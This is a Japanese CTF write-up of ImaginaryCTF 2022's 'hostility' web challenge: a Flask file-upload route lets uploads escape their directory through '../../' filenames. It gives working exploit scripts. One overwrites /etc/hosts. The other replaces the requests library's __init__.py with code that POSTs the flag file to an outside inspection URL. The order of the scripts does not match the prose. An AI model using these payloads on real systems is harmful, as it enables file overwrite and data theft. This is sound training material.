 ```yaml
---
layout: chall
ctf_name: imaginaryctf_2022
problem_name: hostility
genre: web
solved_date: 2022-07-18
during_ctf: false
tag: [directory_traversal,host]
fav: false
difficulty: easy
---
```


### 概要

<details><summary>コード</summary>

```py
#!/usr/bin/env python3

from requests import get
from flask import Flask, Response, request
from time import sleep
from threading import Thread
from os import _exit

app = Flask(__name__)

class Restart(Thread):
    def run(self):
        sleep(300)
        _exit(0) # killing the server after 5 minutes, and docker should restart it

Restart().start()

@app.route('/')
def index():
    return Response(open(__file__).read(), mimetype='text/plain')

@app.route('/docker')
def docker():
    return Response(open("Dockerfile").read(), mimetype='text/plain')

@app.route('/compose')
def compose():
    return Response(open('docker-compose.yml').read(), mimetype='text/plain')

@app.route('/upload', methods=["GET"])
def upload_get():
    return open("upload.html").read()

@app.route('/upload', methods=["POST"])
def upload_post():
    if "file" not in request.files:
        return "No file submitted!"
    file = request.files['file']
    if file.filename == '':
        return "No file submitted!"
    file.save("./uploads/"+file.filename)
    return f"Saved {file.filename}"

@app.route('/flag')
def check():
    flag = open("flag.txt").read()
    get(f"http://localhost:1337/{flag}")
    return "Flag sent to localhost!"

app.run('0.0.0.0', 1337)
```

</details>


### 解法

自明なディレクトリトラバーサルがある。5 分おきに再起動されるので、まずそのタイミングで読み込まれる何らかのモジュールの `__init__.py` を書き換えることを考えた。

<details><summary>スクリプト</summary>

```py
from itertools import count
from time import sleep, time
import requests

res = requests.post(
  "https://hostility.chal.imaginaryctf.org/upload",
  files={'file':("../../etc/hosts", b'127.0.0.1   example.com')}
)

requests.get("https://hostility.chal.imaginaryctf.org/flag")
```

</details>


これはローカルだと上手く行ったものの、リモートには刺さらなかった。おそらく再起動時の処理が違ったのだろう。正解は `/etc/hosts` の書き換え。問題名に解法のヒントを含めるの、あまり好きではないのでやめてほしいな……

<details><summary>スクリプト</summary>

```py
from itertools import count
from time import sleep, time
import requests

init = time()
for i in count():
  dt = round(time()-init, 2)
  print(f'[+] {dt=}')
  res = requests.post(
    "https://hostility.chal.imaginaryctf.org/upload",
    # "http://localhost:1338/upload",
    files={'file':(
      "../../usr/local/lib/python3.8/dist-packages/requests/__init__.py",
      b'''
import urllib.request

print(f'[+] pwned!')
url = 'https://requestinspector.com/inspect/01g85s4t9q77sty57kf0fyhksy'
urllib.request.urlopen(urllib.request.Request(url, data=open("/app/flag.txt", "rb").read(), method='POST'))
def get(url):
 pass
'''
    )}
  )
  print(res.text)
  sleep(5)
```

</details>

